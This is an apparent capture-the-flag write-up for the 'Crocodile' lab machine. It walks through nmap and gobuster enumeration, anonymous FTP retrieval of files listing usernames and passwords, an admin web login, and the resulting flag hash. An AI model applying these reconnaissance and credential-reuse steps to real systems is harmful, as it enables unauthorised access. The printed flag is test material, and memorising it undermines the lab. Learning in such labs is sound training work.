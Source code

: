 ```yaml
---

---
```

---
# Crocodile

---
## Getting Started
---
Use command to set Target IP
```bash
IP=10.129.112.127 ; echo $IP
```

Use command to set Target IP
```bash
HIP="$(ifconfig tun0  | grep -Eo 'inet (addr:)?([0-9]*\.){3}[0-9]*' | grep -Eo '([0-9]*\.){3}[0-9]*' | grep -v '127.0.0.1')" ; echo $HIP

```

---
## Enumeration

---
### NMAP

---
Nmap Command Ran
```bash
nmap -sV -sC $IP | copy
```

Results
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-30 17:50 EDT
Nmap scan report for 10.129.112.127
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.180
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.93 seconds


```

**Findings**
Port 21 is running ftp and returned that Anonymous is allows
Port 80 is running web server Apache/2.4.41 (Ubuntu)

### FTP Enumeration
Logged in with anonymous as user name.

Command
```bash
ls
```

Result
```bash
229 Entering Extended Passive Mode (|||42585|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
```

Retrieve the two files

Command
```bash
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||42589|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |******************************************|    33       15.93 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (1.11 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||42185|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |******************************************|    62      194.05 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (2.17 KiB/s)

```

Result
```bash
Both were 

ls
allowed.userlist  allowed.userlist.passwd

```
**Findings**
After catting both files the returned the following

allow.userlist
>aron
>pwnmeow
>egotisticalsw
>admin

allow.userlist.passwd
>root
>Supersecretpassword1
>@BaASD&9032123sADS
>rKXM59ESxesUFHAd

### Website Enumeration
Nothing initially stands out and no login page

Command
```bash
gobuster dir --url http://$IP/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```

Result
```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.112.127/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/30 18:05:20 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 1577]
/assets               (Status: 301) [Size: 317] [--> http://10.129.112.127/assets/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.112.127/css/]   
/js                   (Status: 301) [Size: 313] [--> http://10.129.112.127/js/]    
/logout.php           (Status: 302) [Size: 0] [--> login.php]                      
/config.php           (Status: 200) [Size: 0]                                      
/fonts                (Status: 301) [Size: 316] [--> http://10.129.112.127/fonts/] 
/dashboard            (Status: 301) [Size: 320] [--> http://10.129.112.127/dashboard/]
Progress: 86022 / 175330 (49.06%)                                                    ^C
[!] Keyboard interrupt detected, terminating.
                                                                                      
===============================================================
2022/09/30 18:10:49 Finished
===============================================================

```


**Findings**
Gobuster identified a /logon.php

---
## Foothold
Use the username:admin and password:rKXM59ESxesUFHAd from the retrieved files to log in

>![[Pasted image 20220930181504.png]]

---
## Flags
website
```bash
# c7110277ac44d78b6a9fff2232434d16
```

---
## Tags
---
#gobuster #ftp 